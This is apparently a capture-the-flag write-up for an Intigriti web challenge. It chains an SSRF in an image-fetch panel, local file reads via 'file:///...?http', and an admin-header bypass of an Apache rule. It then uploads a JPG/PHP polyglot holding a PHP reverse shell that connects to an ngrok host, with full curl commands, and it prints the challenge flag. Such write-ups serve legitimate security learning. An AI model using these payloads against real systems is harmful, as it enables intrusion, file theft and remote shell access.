




Intigriti’s October challenge 1025 was a really cool one, leveraging SSRF, local file inclusion, and RCE. I first found the flag in an unintended manner, and then worked my way into finding the RCE, popping that shell and flagging again!
Kudos to @chux for this fun challenge ^.^
Unintended Solution
We first have a panel where we can input the URL of an image and the app goes off to fetch it. Sounds innocent, right? In reality that panel will fetch any URL you give it. Indeed, under the hood the backend just runs a curl request with the supplied URL (and in our case it does not even check that the result is an image). That means we are not handing the server an “image” so much as handing it an instruction: “go ask that address for me.”
So… what’s the first thing that comes to one’s minds when they see that? Server-Side Request Forgery (SSRF), because this app will happily make requests on our behalf to places we might not be able to reach directly.
We will try to exploit that to read local files to the server. We set the input to file:///etc/passwd, but obtained the error Invalid URL: must include 'http':

Hence, we tried using file:///etc/passwd?http and this yielded the content of /etc/passwd, so the SSRF worked perfectly.

Using this, we explored the file system looking for the flag, and used the input file:///?http to list the content of the / directory.

There, we noticed a file with a random name, the 93e892fe-c0af-44a1-9308-5a58548abd98.txt, and when fetching its content using the input file:///93e892fe-c0af-44a1-9308-5a58548abd98.txt?http, we got the flag : INTIGRITI{ngks896sdjvsjnv6383utbgn}

But as the challenge requirements mentioned the necessity of leveraging an RCE, we are not finished yet ;)
Real Solution
Our goal is to pop a shell, so let’s proceed to achieving that. We first inspect the files in the current directory using the input file:///proc/self/cwd/?http. We obtain five files as underlined in the screenshot below :

Upon inspection, the one that might be the most interesting in our case is the upload_shoppix_images.php, as it allows uploading files to the server given the following code :
<?php
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
$file = $_FILES['image'];
$filename = $file['name'];
$tmp = $file['tmp_name'];
$mime = mime_content_type($tmp);
if (
strpos($mime, "image/") === 0 &&
(stripos($filename, ".png") !== false ||
stripos($filename, ".jpg") !== false ||
stripos($filename, ".jpeg") !== false)
) {
move_uploaded_file($tmp, "uploads/" . basename($filename));
echo "<p style='color:#00e676'>✅ File uploaded successfully to /uploads/ directory!</p>";
} else {
echo "<p style='color:#ff5252'>❌ Invalid file format</p>";
}
}
?>
Nevertheless, when trying to access it via https://challenge-1025.intigriti.io/upload_shoppix_images.php, we obtain a 403 Forbidden error.
Hence, let’s check the Apache configuration to see how the server actually works. We first check the file /etc/apache2/apache2.conf by setting the input to file:///etc/apache2/apache2.conf?http, and we observe that it includes the configurations in the directory sites-enabled given these lines :
# Include the virtual host configurations:
IncludeOptional sites-enabled/*.conf
We check the content of that directory and observe that there is only one configuration file 000-default.conf.

Let’s check its content.
<VirtualHost *:8080>
DocumentRoot /var/www/html
<Directory /var/www/html>
Options Indexes FollowSymLinks
AllowOverride All
Require all granted
</Directory>
<Directory /var/www/html/uploads>
Options -Indexes
</Directory>
<Directory /var/www/html/public>
Options -Indexes
</Directory>
<Files "upload_shoppix_images.php">
<If "%{HTTP:is-shoppix-admin} != 'true'">
Require all denied
</If>
Require all granted
</Files>
</VirtualHost>
Given the rule :
<Files "upload_shoppix_images.php">
<If "%{HTTP:is-shoppix-admin} != 'true'">
Require all denied
</If>
Require all granted
</Files>
we should be able to access https://challenge-1025.intigriti.io/upload_shoppix_images.php by setting a header is-shoppix-admin: true in our request is-Shoppix-Admin: true. Upon testing, this proves to give us the webpage we want.


Our goal now is to upload a reverse shell in the application, nevertheless, we need to upload a file that verifies these conditions :
strpos($mime, "image/") === 0 &&
(stripos($filename, ".png") !== false ||
stripos($filename, ".jpg") !== false ||
stripos($filename, ".jpeg") !== false)
so basically, we need to upload a file such that :
- The MIME type starts with
image/ - The filename contains
.png,.jpg, or.jpeg(case-insensitive)
To do so, we can just create a 1*1 JPG, append our PHP code to it and upload it to the server. Upon accessing it directly in the /uploads, our code will be executed and we will obtain our shell. Let’s do that.
PoC
- We create the 1*1 JPG using the following bash oneliner :
printf '%s' '/9j/4AAQSkZJRgABAQEASABIAAD/2wBDAP//////////////////////////////////////////////////////////////////////////////////////2wBDAf//////////////////////////////////////////////////////////////////////////////////////wAARCAABAAEDASIAAhEBAxEB/8QAFQABAQAAAAAAAAAAAAAAAAAAAAX/xAAUEAEAAAAAAAAAAAAAAAAAAAAA/8QAFQEBAQAAAAAAAAAAAAAAAAAAAwT/xAAUEQEAAAAAAAAAAAAAAAAAAAAA/9oADAMBAAIRAxEAPwCfAAf/2Q==' | base64 -d > tiny.jpg
- We create our reverse shell in
test.php:
<?php
$sock=fsockopen("6.tcp.eu.ngrok.io",11347);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes); ?>
- We concatenate both files in a final one
test.jpg.phpand upload the latter to the server:
cat tiny.jpg test.php > test.jpg.php
curl -X POST -F "image=@test.jpg.php" -H "is-shoppix-admin: true" https://challenge-1025.intigriti.io/upload_shoppix_images.php
We obtain a response containing : <p style='color:#00e676'>✅ File uploaded successfully to /uploads/ directory!</p> </div>. Hence, our file was successfully uploaded. Let’s check it on https://challenge-1025.intigriti.io/uploads/test.jpg.php in the browser.
Once we do that, we successfully receive the connexion back and obtain our shell.
Finally, we just need to find the flag as we showcase in the screenshot below : 
Again, our flag is INTIGRITI{ngks896sdjvsjnv6383utbgn}!